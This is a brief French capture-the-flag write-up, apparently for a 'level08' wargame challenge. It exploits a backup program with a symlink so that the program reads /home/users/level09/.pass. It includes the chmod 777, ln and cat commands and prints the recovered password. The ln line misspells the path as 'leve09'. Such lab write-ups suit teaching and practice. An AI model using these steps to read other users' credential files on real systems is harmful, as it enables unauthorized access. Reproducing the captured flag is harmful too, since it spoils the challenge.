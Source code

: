 le programme ouvre argv[1] et l'ecrit dans ./backups/argv[1]

si on veut ouvrir /home/users/level09/.pass le programme
	essaye d'ouvrir ./backups//home/users/level09/.pass

le // pose probleme
il suffit simplement de creer un lien symbolique de /home/users/level09/.pass dans notre home ->
	> chmod 777 . (pour avoir les droits d'ecriture dans notre HOME)
	> ln -sf /home/users/leve09/.pass pass
	> ./level09 pass
	> cat ./backups/pass
<<< fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S